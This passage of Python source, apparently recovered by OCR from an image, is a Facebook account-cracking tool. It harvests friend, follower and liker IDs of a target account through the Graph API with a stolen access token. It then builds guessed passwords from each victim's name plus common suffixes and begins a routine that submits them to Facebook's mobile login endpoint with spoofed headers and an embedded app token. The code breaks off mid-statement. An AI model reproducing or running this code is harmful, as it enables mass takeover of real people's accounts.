 ahmar_cici('%s[%s5%s] %sUser Agent'%(U,P,U,P)) ahmar_cici('%s[%s0%s] %sLog Out'%(U,P,U,M)) ahmar_menu__cici_ahmar = cici_ahmar('%s[%s•%s] %sChooses : '%(U,P,U,P)) ahmar_cici('') if ahmar_menu__cici_ahmar in ['',' ']: ahmar_cici('%s[%s!%s] %sWrong Input BRO'%(M,P,M,P)) time.sleep(2) menu_dev(Ahmar_Ganteng_Banget) elif ahmar_menu__cici_ahmar_ in ['1','01','a']: publik_dev(tok_dev) elif ahmar_menu__cici_ahmar_ in ['2','02','b']: followers_dev(tok_dev) elif ahmar_menu__cici_ahmar_ in ['3','03','c']: likers_dev(tok_dev) elif ahmar_menu__cici_ahmar_ in ['4','04','d']: cek_result_dev() elif ahmar_menu__cici_ahmar_ in ['5','05','e']: ugen_dev(Ahmar_Ganteng_Banget) elif ahmar_menu__cici_ahmar_ in ['0','00','z']: ahmar_cici('%s[%s•%s] %sSee you later %s%s %s!'%(U,P,U,P,U,nama_dev,P)) bersih() time.sleep(2) login_dev(Ahmar_Ganteng_Banget) else: ahmar_cici('%s[%s!%s] %sWrong input Bro'%(M,P,M,P)) time.sleep(2) menu_dev(Ahmar_Ganteng_Banget) ### Dump ID Publik def publik_dev(tok_dev): Ahmar_jan_Cici = 'My_Love'+oscylopsce+escylipsce+ascylapsci+'Forever' ahmar_cici('%s[%s•%s] %sType (Me) Clone your Login ID'%(U,P,U,P)) target_dev = cici_ahmar('%s[%s•%s] %sINPUT TARGET ID : %s'%(U,P,U,P,U)) try: req_tar = req_get("https://graph.facebook.com/%s?access_token=%s"%(target_dev,tok_dev)) jso_tar = js_lo(req_tar.text) name = jso_tar['name'] ahmar_cici('%s[%s•%s] %sTarger Name: %s%s'%(U,P,U,P,U,name)) except: ahmar_cici('%s[%s!%s] %sToken Invalid / ID Not Found'%(M,P,M,P)) time.sleep(2) menu_dev(Ahmar_jan_Cici) try: req_fl = req_get("https://graph.facebook.com/%s/friends?limit=1000000&access_token=%s"%(target_dev,tok_dev)) lo_dev = js_lo(req_fl.text) jso_file = (jso_tar["first_name"]+".json").replace(" ","") jso_exec = ahmar_ahmar(jso_file,"w") for Ahmar_Cici_Forever in lo_dev["data"]: try: id_tampung.append(Ahmar_Cici_Forever["id"]+"•"+Ahmar_Cici_Forever["name"]) jso_exec.write(Ahmar_Cici_Forever["id"]+"•"+Ahmar_Cici_Forever["name"]+"\n") except:continue jso_exec.close() ahmar_cici('%s[%s•%s] %sTotal ID : %s%s'%(U,P,U,P,U,len(id_tampung))) except: ahmar_cici('%s[%s!%s] %sToken Invalid /ID Not Found'%(M,P,M,P)) time.sleep(2) menu_dev(Ahmar_jan_Cici) return crack_dev(jso_file) ### Dump ID Pengikut def followers_dev(tok_dev): Ahmar_jan_Cici = 'My_Love'+oscylopsce+escylipsce+ascylapsci+'Forever' ahmar_cici('%s[%s•%s] %sTpye /Me/ Clone Your Login ID'%(U,P,U,P)) target_dev = cici_ahmar('%s[%s•%s] %sPast Target ID : %s'%(U,P,U,P,U)) try: req_tar = req_get("https://graph.facebook.com/%s?access_token=%s"%(target_dev,tok_dev)) jso_tar = js_lo(req_tar.text) name = jso_tar['name'] ahmar_cici('%s[%s•%s] %sTarget Name : %s%s'%(U,P,U,P,U,name)) except: ahmar_cici('%s[%s!%s] %sToken Invalid /Targe not public'%(M,P,M,P)) time.sleep(2) menu_dev(Ahmar_jan_Cici) try: req_fl = req_get("https://graph.facebook.com/%s/subscribers?limit=1000000&access_token=%s"%(target_dev,tok_dev)) lo_dev = js_lo(req_fl.text) jso_file = (jso_tar["first_name"]+".json").replace(" ","") jso_exec = ahmar_ahmar(jso_file,"w") for Ahmar_Cici_Forever in lo_dev["data"]: try: id_tampung.append(Ahmar_Cici_Forever["id"]+"•"+Ahmar_Cici_Forever["name"]) jso_exec.write(Ahmar_Cici_Forever["id"]+"•"+Ahmar_Cici_Forever["name"]+"\n") except:continue jso_exec.close() ahmar_cici('%s[%s•%s] %sTotal ID : %s%s'%(U,P,U,P,U,len(id_tampung))) except: ahmar_cici('%s[%s!%s] %sToken Invalid / Target Not public'%(M,P,M,P)) time.sleep(2) menu_dev(Ahmar_jan_Cici) return crack_dev(jso_file) ### Dump ID Likers def likers_dev(tok_dev): Ahmar_jan_Cici = 'My_Love'+oscylopsce+escylipsce+ascylapsci+'Forever' ahmar_cici('%s[%s•%s] %sTpye /Me/ Clone Your Login ID'%(U,P,U,P)) target_dev = cici_ahmar('%s[%s•%s] %sPAST TARGET ID : %s'%(U,P,U,P,U)) try: req_tar = req_get("https://graph.facebook.com/%s?access_token=%s"%(target_dev,tok_dev)) jso_tar = js_lo(req_tar.text) name = jso_tar['name'] ahmar_cici('%s[%s•%s] %sNama : %s%s'%(U,P,U,P,U,name)) except: ahmar_cici('%s[%s!%s] %sToken Invalid / ID NOT FOUND'%(M,P,M,P)) time.sleep(2) menu_dev(Ahmar_jan_Cici) try: req_fl = req_get("https://graph.facebook.com/%s/likes?limit=1000000&access_token=%s"%(target_dev,tok_dev)) lo_dev = js_lo(req_fl.text) jso_file = (jso_tar["first_name"]+".json").replace(" ","") jso_exec = ahmar_ahmar(jso_file,"w") for Ahmar_Cici_Forever in lo_dev["data"]: try: id_tampung.append(Ahmar_Cici_Forever["id"]+"•"+Ahamr_Cici_Forever["name"]) jso_exec.write(Ahmar_Cici_Forever["id"]+"•"+Ahmar_Cici_Forever["name"]+"\n") except:continue jso_exec.close() ahmar_cici('%s[%s•%s] %sTotal ID : %s%s'%(U,P,U,P,U,len(id_tampung))) except: ahmar_cici('%s[%s!%s] %sToken Invalid / ID NOT FOUND'%(M,P,M,P)) time.sleep(2) menu_dev(Ahmar_jan_Cici) return crack_dev(jso_file) ### Generate Password def pass_list(cici): ahmar=[] for i in cici.split(" "): if len(i)<3: continue else: i=i.lower() if len(i)==3 or len(i)==4 or len(i)==5: ahmar.append(i+"123") ahmar.append(i+"12345") else: ahmar.append(i) ahmar.append(i+"123") ahmar.append(i+"12345") ahmar.append(cici.lower()) ahmar.append("pakistan") ahmar.append("123456789") ahmar.append("123456") return ahmar ### Logger Crack def log_api(em,pas,hosts): ua = open('ugent.txt','r').read() r = requests.Session() header = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), "x-fb-sim-hni": str(random.randint(20000, 40000)), "x-fb-net-hni": str(random.randint(20000, 40000)), "x-fb-connection-quality": "EXCELLENT", "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA", "user-agent": ua, "content-type": "application/x-www-form-urlencoded", "x-fb-http-engine": "Liger"} param = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'json', 'sdk_version': '2', 'email': em, 'locale': 'en_US', 'password': pas, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig':'3f555f99fb61fcd7aa0c44f58f522ef6'} api = 'https://b-api.facebook.com/method/auth.login' response = r.get(api, params=param, headers=header) if